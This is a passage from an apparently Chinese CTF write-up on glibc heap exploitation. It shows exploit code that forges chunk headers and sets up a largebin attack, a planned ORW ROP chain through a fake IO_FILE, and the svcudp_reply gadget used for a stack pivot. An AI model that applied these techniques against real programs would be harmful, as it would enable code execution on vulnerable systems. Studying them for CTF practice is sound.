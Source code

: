 [![](assets/1700701212-9727b015002c25fdaa6999e65dd537c9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231122121209-4e61f198-88ed-1.png)

```plain
edit(0,'\x00'*0x420+p64(0)+p64(0x431))
edit(1,'\x00'*0x340+p64(0)+p64(0x431))
```

接下来构造好largebin attack的触发

```plain
add(5,0x450,'bbbb')
add(6,0x450,'bbbb')
add(7,0x440,'bbbb')
add(8,0x440,'bbbb')
delete(5)#chunk5 --> unsorted bin
add(9,0x500,'bbbb')#chunk5 --> largebin
delete(7)#chunk7-->unsortedbin
```

[![](assets/1700701212-6d09ca9d377dbcdbb51f309fe9cbaafc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231122121219-5449e4e4-88ed-1.png)

下一步就是构造好orw链和fake io

这里是winmt师傅的文章浇的原理[\[原创\] CTF 中 glibc堆利用 及 IO\_FILE 总结-Pwn-看雪-安全社区|安全招聘|kanxue.com](https://bbs.kanxue.com/thread-272098.htm#msg_header_h3_29)

tql

通过svcudp\_reply+26处的gadget做到类似于栈迁移的效果，走ROP链打orw

```plain
<svcudp_reply+26>:  mov  rbp,QWORD PTR [rdi+0x48]
<svcudp_reply+30>:  mov  rax,QWORD PTR [rbp+0x18]
<svcudp_reply+34>:  lea  r13,[rbp+0x10]
<svcudp_reply+38>:  mov  DWORD PTR [rbp+0x10],0x0
<svcudp_reply+45>:  mov  rdi,r13
<svcudp_reply+48>:  call  QWORD PTR [rax+0x28]
```
